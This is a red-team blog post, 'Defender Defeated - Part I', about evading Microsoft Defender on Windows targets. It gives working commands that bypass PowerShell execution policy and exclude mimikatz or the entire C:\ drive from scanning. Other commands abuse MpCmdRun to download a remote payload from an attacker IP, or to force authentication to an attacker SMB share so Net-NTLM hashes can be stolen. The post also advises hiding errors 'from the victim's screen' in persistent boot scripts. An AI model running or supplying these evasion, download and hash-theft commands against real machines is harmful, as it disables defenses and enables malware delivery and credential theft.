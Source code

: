 ```yaml
---
author: "Jann Moon"
title: "Defender Defeated - Part I: On Casting Dark Fogclouds"
description: "Armaments in the eternal war against Microsoft's Persistant Anti-Virus for Offsec Wizards."
tags: ["AV Bypass", "Defender", "Powershell", "Red Team"]
date: 2023-07-09
thumbnail: floral8.jpg
---
```


In the beginnings of my journey to unravel the secrets of penetration testing, I'd eagerly attempted to execute a new tool or test a simple malware I had crafted; though a dormant watchful antagonist would be waiting in darkness, snatching my executable and casting it into the void.  Meekly, this foe would ping a quiet and often-ignored notification in the bottom-right corner of the screen.

Some days, I would turn to the venerable oracles at VirusTotal and ask them to analyze a file for me.  As I presented the file, it quickly became a recurring theme that only one of the guardians, known as Microsoft Defender, would raise its vigilant flag when confronted with my altered and obfuscated creations.  While frustrating, I couldn't help but admire the tenacity of Microsoft Defender, which pushed me to take a deeper dive into obfuscation techniques and AV-bypass than I otherwise would have.  Defebder was omnipresent in the Windows realm, making it a familiar hurdle on almost every target.  

Getting to this point took a lot of experimentation, scouring obscure scrolls of knowledge hidden within online forums, analyzing source code of many great open-source tools and reading what many talented practiotioners have written into articles and tutorials for free, blessing both sides of the infosec community.

### Rules for Finding Successful Bypasses

 Almost any guide that details a specific set of steps to take rarely works.  Whoever wrote the guide has done most of the hard work for the AV vendor by proving a map for reverse engineering their executable.  This is possibly one of the main things that anti-virus vendors do - scour the internet for information and add signatures to their databases.  I'd say *especially* if the guide is about "Microsoft Defender Bypasses", as they want to catch what MS Defender doesn't and include that information in their marketing and webinars.

 Even combining multiple popular obfuscation tools takes work.  If it isn't caught by AV, it is commonly because the malware got too obfuscated to know what it is supposed to do, while you keep staring and waiting in your terminal. 

 ![Just blinking and breathing...](waitingforshell.png)

I had the most success with writing my own tools for obfuscation, or at least modifying semi-obscure ones, followed by using a proprietary tool intended to protect code from being stolen - though it works just as great for casting smoke bombs into enemy workstations.  Since I can't spell out my exact steps for consistent Defender deception, as they'd be useless by the time you read this article, here are some "features, not vulnerabilities" to get to the same destination.

### Execution Policy Bypass

The first barrier you might hit, especially if you are just grabbing scripts from Github and running them, is the "Execution Policy" settings preventing you from doing what you want. My most used technique is the following:

```
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
```

However, different techniques are blocked on different computers for various reasons, though this one works about 80% of the time.  If you need to try a handful, this great article by NetSPI shows 15 different ways to get around this.
[NetSPI's Bypass Execution POlicy Methods](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)


### Add-MpPreference

This tool is bundled with Defender, so should be present on all Microsoft workstations.  The tool provides a way to run Defender's functions through the command-line or automate workflows by using it in a script.  Interestingly enough, the arguments used to bypass your paylaods from being scanned are not mentioned on the official Microsoft Defender documentation pages for using "Add-MpPreference", only mentioned once on another page without explaining how to do so. 

[Defender Documentation for mpcmdrun.exe](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/command-line-arguments-microsoft-defender-antivirus?view=o365-worldwide)

Here is how you can add a path to be excluded from Defender scans, since the Microsoft forgot to write about it.

```
PS > Add-MpPreference -ExclusionPath "C:\Temp\mimikatz.exe" -AttackSurfaceReductionOnlyExclusions "C:\Temp\mimikatz.exe"
```

You can run the executable if Powershell is unavailable.  It is located at `%ProgramFiles%\Windows Defender\MpCmdRun.exe` or `C:\ProgramData\Microsoft\Windows Defender\Platform\<antimalware-platform-version` depending on the version of Defender.

This versatile tool can also download remote files.  When a tool can do so much, its hard to remember all the features, as they also forgot to mention this one as well.


```
PS > .\MpCmdRun.exe -DownloadFile -Url http://10.10.10.10/sweetvirus.exe -Path C:\Temp\sweettrustedfile.exe
```

Another cool unintended use for the tool, is to trigger a scan on a remote file on the attacker's machine (or non-existent file works as well), to allow Responder to steal the Net-NTLM hash for a Pass-The-Hash attack.

*Shout out to this great guide by snovvcrash for enlightening me* [Github-PPN](https://github.com/snovvcrash/PPN)

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

### Exclusionary Protection Spells via Powershell

To cripple Defender's power reach, you can also set the entire fielsystem as an excluded path.  With a Powershell session running, enter the following commands. 

```
 Add-MpPreference -ExclusionPath "C:\"
 Add-MpPreference -ExclusionProcess "C:\"

```
If you plan to include these within a script that runs on boot for persistent shell access, include `-ErrorAction SilentlyContinue` to hide any errors from the victim's screen.

Hopefully, this article has helped you fast-forward to the part of your hacking journey where Microsoft Defender is a footnote to remember when building and modifying shells and other malicious executables just a little bit faster.  This first part of the "Death of Defender" arc deals with sidestepping and using blindspots to avoid Defender; in the second part, I will teach you how to extinguish its life force by pulling the plug at its roots.  Thanks for reading!
